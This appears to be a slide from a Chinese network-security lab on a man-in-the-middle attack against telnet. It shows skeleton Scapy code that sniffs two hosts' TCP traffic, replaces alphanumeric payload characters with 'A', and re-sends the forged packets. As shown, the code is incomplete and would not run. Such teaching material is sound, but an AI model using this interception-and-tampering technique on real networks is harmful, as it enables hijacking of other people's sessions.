

# 任务3：针对telnet的中间人攻击
def spoof_pkt(pkt):
print("Original Packet.........")
print("Source IP : ", pkt[IP].src)
print("Destination IP :", pkt[IP].dst)

a = IP()
b = TCP()
data = pkt[TCP].payload

newpkt = a/b/newdata
print("Spoofed Packet.........")
print("Source IP : ", newpkt[IP].src)
print("Destination IP :", newpkt[IP].dst)
send(newpkt)

f = 'tcp and (ether src ' + MAC_A +  ' or ' + \
                    'ether src ' + MAC_B +  ' )’
pkt = sniff(filter=f, prn=spoof_pkt)
单个字符的替换：re.sub(  )
newdata = re.sub(r'[0-9a-zA-Z]', r'A', data.decode())